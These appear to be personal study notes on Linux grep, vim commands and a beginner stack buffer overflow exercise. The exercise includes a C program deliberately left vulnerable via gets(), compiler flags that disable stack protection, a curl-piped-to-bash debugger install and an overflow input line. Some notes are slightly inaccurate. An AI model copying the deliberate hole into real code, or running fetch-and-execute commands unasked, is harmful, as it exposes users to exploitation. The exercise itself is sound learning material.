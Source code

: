     grep ^..[l-z]$ hello.txt

    any line in hello.txt that contains a three characters sequenze that ends with a lowercase letter from l to z. es. [abl] [xyz]


## VIM/VI
(è stato il primo editor di linux)    
`vi / vim filename`

[VIM Cheat Sheet](assets/docs/vim-commands-cheat-sheet-by-pnap.pdf)

    command mode, input mode, visual mode, 
    hjkl move the courser
    ^ move to begin of line 
    $ move to end
    w start of word, b end of prev word
    G end of file

    cut and paste → 5dd delete 5 lines move to position and p to paste
    copy and paste → yank 5yy

    :w save file
    :wq save and exit
    :ZZ
    :q! force exit
    :e filename to edit another file 
    :x write file, then quit.
    u - undo last edit.
    ctrl-r redo.
    / search forward in the file.
    ? search backward in the file.

~~~c
#include <stdio.h>

int main(){
    char buf[80];
    int cookie;
    printf("buf: %08x cookie: %08x\n",&buf,&cookie);
    gets(buf);
    if(cookie == 0x41424344)
        printf("You Win!\n");
}
~~~
### gcc compile without buffer overflow checks
    gcc -m32 -z execstack -fno-stack-protector prog.c -o prog.out

    install GEF for GDB
    https://github.com/hugsy/gef
    bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
    disas main // main is the function is guess
    shell python -c 'print(0x80)'
    run < <(python -c 'print("A"*84+"\x0f\x12\x40\x00")')
